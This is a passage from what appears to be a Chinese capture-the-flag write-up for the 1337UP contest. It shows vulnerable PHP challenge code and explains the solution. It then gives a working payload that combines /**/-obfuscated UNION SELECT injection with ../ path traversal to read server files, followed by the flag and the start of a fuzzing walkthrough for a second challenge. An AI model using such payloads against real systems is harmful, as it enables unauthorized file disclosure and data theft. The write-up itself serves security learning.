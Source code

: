 ```php
            $sql_where[] = $db->escapeString($key) . "='" . $db->escapeString($data) . "'";
            $result = $db->querySingle('SELECT login FROM users WHERE ' . implode(' AND ', $sql_where));
            if (!$result == 'admin'){
                echo 'Last step 🤣<br>';
                var_dump(file_get_contents('php://input'));
                

                readfile(file_get_contents('php://input'));
            }
        }
    }
}
?>
```

下载db文件，前面的绕过比较常规，后面需要result等于admin，导入db文件，看看结构

![image-20220312135357433](https://img-blog.csdnimg.cn/img_convert/edd4739485017e276ec8da655c126ccc.png)

后面sql查询时候注入利用/**/绕过即可，最后利用点 readfile 接受的是所有POST数据，利用 /\*\*/ 可以搭配路径穿越读取任意文件

payload

```
GET:
?action=0e215962017
POST:
1/**/union/**/select/**/%22admin%22--&loggedin=true?../../../../../../../../../../../../../../../../../../var/www/html/index.php
```

FLAG：1337UP{PHP_SCARES_ME_IT_HAUNTS_ME_WHEN_I_SLEEP_ALL_I_CAN_SEE_IS_PHP_PLEASE_SOMEONE_HELP_ME}

# Hacker Writer

任意按键会自动打印字符

![image-20220313164401658](https://img-blog.csdnimg.cn/img_convert/e8be9a5c04e5ddf9606811f13e95636e.png)

一定长度后发现url多了参数

![image-20220313164438088](https://img-blog.csdnimg.cn/img_convert/cc3a77898eda52f530e9d3fb8791d4e9.png)

变动w00t的值，一直回显 Fuzzing is key

![image-20220313164518627](https://img-blog.csdnimg.cn/img_convert/a9a74a5bf97fd5ba08b6f55b2d1ee89e.png)

尝试fuzz参数，当加上 [] 时，回显

![image-20220313164606724](https://img-blog.csdnimg.cn/img_convert/e3eb11b0a761bb01f10a3f9c2493bdc9.png)

加上超长字符
